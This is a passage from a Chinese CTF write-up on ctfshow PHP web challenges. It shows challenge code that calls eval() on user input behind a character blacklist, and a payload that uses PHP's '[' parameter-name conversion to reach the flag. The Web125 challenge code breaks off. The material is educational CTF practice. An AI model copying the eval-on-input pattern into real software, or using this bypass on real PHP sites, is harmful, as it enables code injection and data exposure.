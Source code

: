```php
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

思路很简单但是出现了如下问题：`.`会被转换成`_`

![web123](.\image_php\web123.png)

查看师傅们给的wp得出如下：

**关键：**由于在php中变量名只有数字字母下划线，被get或者post传入的变量名，如果含有空格、+、[则会被转化为`_`，所以按理来说我们构造不出CTF_SHOW.COM这个变量(因为含有.)，但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换

payload：

```php
CTF_SHOW=&CTF[SHOW.COM=1&fun=echo $flag
```

## Web125：$_SERVER['argv']变量

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
#
#
*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
```